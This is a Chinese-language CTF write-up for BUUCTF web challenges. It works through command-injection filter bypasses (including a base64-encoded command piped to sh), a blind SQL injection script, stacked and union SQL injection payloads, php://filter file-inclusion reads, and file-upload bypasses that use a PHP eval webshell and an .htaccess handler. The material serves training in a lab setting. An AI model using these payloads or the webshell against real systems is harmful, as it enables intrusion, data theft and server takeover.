

# BUUCTF——Web

## 特殊题

### [GXYCTF2019]Ping Ping Ping（ping的绕过）

ping题，打开后可以输入IP，然后进行ping操作，应该是这样的。

查看一下文件

```
?ip=127.0.0.1;ls
```


就在这，开始考虑绕过

```
?ip=127.0.0.1;cat flag
```


空格被绕过了

考虑用**${IFS}$来代替空格“ ”**

```
?ip=127.0.0.1;cat${IFS}$flag
```


又被骂了，可能还有别的绕过，把**${IFS}$换成$IFS$1**

```
?ip=127.0.0.1;cat$IFS$1flag
```


flag也被绕过了，去看index.php

```
?ip=127.0.0.1;cat$IFS$1index.php
```


绕过的内容都看到了

> ps:有时会禁用cat: 解决方法是使用tac反向输出命令：
>
>  linux命令中可以加\，所以甚至可以ca\t /fl\ag

过滤了bash但是没过滤sh，sh的大部分脚本在bash下运行

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

"Y2F0IGZsYWcucGhw"这部分是“cat flag.php”的base64-encode

F12得到flag


参考资料：https://www.cnblogs.com/wangtanzhi/p/12246386.html


### [RoarCTF 2019]Easy Calc（WAF的绕过）

题目内容就是个计算器，F12能看到注释


以及目的url

访问

得到绕过信息，

> PHP将查询字符串（在URL或正文中）转换为内部$_ GET或者关联数组$ _POST。
>
> 例如
> ```
> /?foo=bar变成Array([foo] = > "bar")
> ```
> **值得注意的是，查询字符串在解析过程中会将某些字符删除或用下划线代替。**
>
> 例如
>
> ```
> /?%20new[id%00=42]会转换为Array([new_id] = > 42)
> ```
> 如果一个IDS/IPS或者WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们可以利用以下语句绕过：
>
> ```
> /news.php?%20news[id%00=42"+AND+1=0--
> ```
>
> 上述PHP语句的参数%20news[id%00的值将存储到$_GET["news_id"]中。
>
> PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串，会执行两个操作：
>
> 1、删除空白字符
>
> 2、将某些字符转换为下划线（包括空格）


不在num前面加内容的时候会显示forbidden，表示已经被禁止了，而加上以后就能够正常执行后续的操作。

后面需要进行的就是查找目录下的文件，这样才能找到flag所在的位置。

查询的语句

```
scandir(/)
```

但是“/”被绕过了，所以选择chr(47)代替。

用var_dump()进行包裹，这样才能进行输出

> var_dump()函数会打印显示一个变量的内容与结构，以及类型信息。

```
%20num=1;var_dump(scandir(chr(47)))
```


得到目录，flag应该就在“f1agg”文件里，访问

```
calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```


### [极客大挑战 2019]Havefun（代码审计）

打开后查看源码，可以看到PHP代码


直接输入

```php
/?cat=dog
```


### [护网杯 2018]easy_tornado（tornade）

打开后是一个很简陋的页面，有三个按键，按了以后是三个提示类型的东西


这是说明flag在这个文件夹下。


这是说明本题有应用render

> render函数：将文件内容显示在网页上
>
> render函数介绍：https://blog.csdn.net/qq78827534/article/details/80792514



第三块则是一个提示，说明最后的md5要包含cookie_secret和filename的md5。

看wp是还有一个隐藏的页面error的（后续在尝试payload的时候弹出了这个页面）


修改了几个值，都能输出


甚至可以进行计算


按照前面的三个文件的类型，想要找到flag也需要一定的格式

即

```html
***/error?msg=/fllllllllllllag&filehash=***
```

也就是说，问题在于怎么找到这个filehash。这时想起前面的hint有提及，filehash的格式是包含cookie_secret和filename的md5。

去找cookie_secret，没有思路，去看wp，发现他是在**Tornado官网文档**的**Tornado框架的附属文件handler.settings**中找到的cookie_secret。


```python
import hashlib
cookie_secret = "928d5488-32fa-4910-b4ba-f62c9ebb8a4d"
filename = "/fllllllllllllag"
a  = hashlib.md5(filename)
b = a.hexdigest()
c = hashlib.md5(cookie_secret+b)
d = c.hexdigest()
print(d)
```

处理后得到结果： 1b8ef1b1d4695701f93f572811321a85

构造payload：

```
***/file?filename=/fllllllllllllag&filehash=1b8ef1b1d4695701f93f572811321a85
```


## SQL注入

### Hack World（盲注）


打开后能发现一个对话框和一些提示。

说是提供页面ID，也就是数字型注入。

输入1和2会得到两个不同的结果，如果输入其他的内容则会是报错类型的结果。

```
1
Hello,glzjin wants a girlfriend.
2
Do you want to be my girlfriend?
3
Error Occured When Fetch Result.
```

可知为盲注。尝试后可知空格被过滤了，选择用Tab键代替空格，可以输入。利用布尔盲注，采用二分法一位一位的比较可以得到flag。

```python
import requests
import time
#url是随时更新的，具体的以做题时候的为准
url = 'http://zjnuctf.bi0x.cn:28356/index.php'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin+end)//2
    while begin<end:
        print(begin,tmp,end)
        time.sleep(1)
        data["id"] = "if(ascii(substr((select	flag	from	flag),{},1))>{},1,2)".format(i,tmp)
        r = requests.post(url,data=data)
        if 'Hello' in r.text:
            begin = tmp+1
            tmp = (begin+end)//2
        else:
            end = tmp
            tmp = (begin+end)//2

    flag+=chr(tmp)
    print(flag)
    i+=1
    if flag[-1]=='}':
        break

```

### [强网杯 2019]随便注（堆叠注入）

#### 常规解法：

打开后有一个输入框，由题目可知为注入题，输入`1'`发现报错，改为`1'#`有正常回显，再尝试输入`1' or '1'='1`


开始查找输入口的个数

```sql
1' order by 1#
```
有正常的回显，继续加数，加到三的时候开始报错
```sql
1' order by 3#
```


说明只有两个字段。

尝试注入：

```sql
1' union select 1,2#
```
回显了一些奇怪的东西


是过滤掉的东西。

尝试使用堆叠注入

```sql
1';show databases;#
```


```sql
1';show tables;#
```


```sql
1';show columns from `1919810931114514`;#
```


>此处需要特别注意！   单引号（’）和反引号（`）在使用时是有区别的
>
>在linux下不区分，windows下区分。
>
>区别：
>
>单引号（’）或双引号主要用于字符串的引用符号
>
>```mysql
>mysql>select 'hello',"hello";
>```
>
>反引号（`）主要用于数据库、表、索引、列和别名的引用符号     （Esc下面的键）
>```mysql
>mysql>select * from `table` where `from` = `abc`;
>```
输入
>`1';show columns from` words`;#`
>字段使用的是反引号（`）


根据已知条件可知本题没有过滤rename和alert，所以可以把表、列都改名，因为默认的输出是在words中的。把表名改成words，列名改为id。
payload：
```mysql
1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
```
然后只需要在输入框中输入
```mysql
1' or '1'='1
```
即可返回flag的值。

#### 方法二：预处理+堆叠

预处理语句的使用：
```mysql
PREPARE name from '[mysql sequece]'；//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE name;	//删除预定义sql语句
```
预定义语句也可以通过变量进行传递：
```mysql
SET @tn = 'hahaha';					//存储表名
SET @sql = concat('select * from ', @tn);//存储sql语句
PREPARE name from @sql;				//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE sqla;	//删除预定义sql语句
```
本题可以利用char()方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的sql语句，从而绕过过滤或者直接使用`concat()`方法绕过。
```mysql
char()								//根据ASCII表返回给指定整数值的字符值
example:
mysql>SELECT CHAR(77,121,83,81,76);
->'mysql'

concat()							//将多个字符串连接成一个字符串
concat(str1,str2);
example:
mysql>SELECT CONCAT('my','s','ql');
->'mysql'
```
>char(115,101,108,101,99,116)<--->'select'

##### payload1：不使用变量
```mysql
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514`');EXECUTE jwt;#
```

输入后可以直接得到flag。

##### payload2：使用变量

```mysql
1';SET @sql = concat(char(115,101,108,101,99,116),' * from `1919810931114514`);PREPARE jwt from @sql;EXECUTE jwt;#
```

##### payload3：只使用concat()

```mysql
1';PREPARE jwt from concat('s','elect ','* from `1919810931114514`');EXECUTE jwt;#
```

#### 方法三：利用命令执行Getflag

尝试注入一句话木马，然后执行mysql命令

参考资料：https://www.jianshu.com/p/36f0772f5ce8

### [SUCTF 2019]EasySQL（sql堆叠注入）

本题有三种回显，并且可以进行堆叠注入

源码中的查询语句为

```mysql
select ".$post['query']."||flag from Flag
```

#### 预期解

通过堆叠注入sql_mode的值为PIPE_AS_CONCAT

设置sql_mode为PIPE_AS_CONCAT后可改变“||”的含义为连接字符串
>在oracle缺省支持通过“||”来实现字符串拼接，但在mysql缺省不支持。需要调整mysql的sql_mode模式：PIPE_AS_CONCAT 来实现oracle的一些功能。

>缺省：即系统默认状态，意思与”默认”相同。

payload：
```mysql
1;set sql_mode=PIPES_AS_CONCAT;select 1
```


#### 非预期解

payload：

```mysql
*,1
```

原sql语句变为

```mysql
select *,1 ||flag from Flag
```

而*号为查询所有数据，即实现了对flag的查询


### [极客大挑战 2019]EasySQL（万能密码）

按照题意可知是一道注入题

尝试使用万能密码：

```mysql
1' or '1'='1'#
1' or '1'='1'#
```


### [极客大挑战 2019]LoveSQL

打开后和之前那道万能密码的题目很相似，尝试万能密码，


跳转到check.php，并且显示登陆成功，但是好像没啥用


还是得注入

```mysql
username=admin' order by 3%23&password=1
```

没变化

```mysql
username=admin' order by 4%23&password=1
```

报错没有该列


开始正常的注入

```mysql
username=-1' union select 1,2,3%23&password=1
```


注入点在2,3  `接下来的注入省略前半和后半部分`

```mysql
-1' union select 1,database(),3%23
```


```mysql
-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),3%23
```


```mysql
-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1')%23
```


```mysql
-1' union select 1,2,(select group_concat(password) from l0ve1ysq1)%23
```


得到flag。

参考博客：https://blog.csdn.net/qq_45521281/article/details/105533626


## 文件包含

### [极客大挑战 2019]Secret File（文件包含）

打开后是一个很诡异的网站，查看源码，发现有一处很怪的地方


也就是说，本该有这么一个超链接的，但是不知道为啥没看到，不管了直接跳链接（在本界面全选就能发现这个link了）

跳转后是个新页面，中间有个叫`SECRET`的按钮

点击


？？？尝试Burp抓包


抓到了一个新的文件

打开发现一串源码


去访问flag.php


讲道理flag应该是写在这里的，但是查看源码没有发现什么有意义的信息。查看wp，flag是写在php里的，但是估计展示的时候被挡住了，返回去看上面的php代码，可以利用文件包含来读出文件。

payload：

```
http://a89e7cda-4786-41f4-9610-f2e6e0e6e6e1.node3.buuoj.cn/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

这样就能把整个flag.php代码转换输出


把base64代码解码就能得到flag.php

```php
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{88951037-7a2c-4a16-b86f-8ed290700ea2}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>

```

得到flag。


### [ACTF2020 新生赛]Include

打开后有个tips的按钮，点开后是一句话，

查看网址的代码，结合题目，不难发现是道文件包含题，


于是尝试文件包含

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

得到一长串的base64值


解码后得到flag。


## 代码审计

### [RoarCTF 2019]Easy Calc


## 文件上传

### [极客大挑战 2019]Knife

最基本的文件上传题。

用蚁剑连网页，密码是Syc

在根目录的flag文件中找到flag。

#### Upload-labs(文件上传实验室)

准备：

1、burp

2、一句话木马：

```php
<?php @eval($_POST['attack']) ?>
其中密码为attack。
```

3、蚁剑

4、.htaccess文件（详见第4题）

```
SetHandler application/x-httpd-php
```


##### pass-01

上传后用Burp抓包，send to request，修改文件类型为php。

然后在接收处可以得到


返回原题，修改途径，用蚁剑登录可以得到。

（还有说直接在前端修改JS的，添加.php，但是不知道为什么不行）

##### pass-02

同第一题。

##### pass-03

send to request后修改后缀为php1上传。

##### pass-04

基本都被黑名单了，但是htaccess没有，选择上传。

改后缀为jpg，然后在抓包时修改后缀为htaccess，这样任何上传的文件都会被识别为php。

直接上传文件就可以连接蚁剑了。

##### pass-05

没有绕过大小写，通过把上传的文件改为phP可以上传。

```

```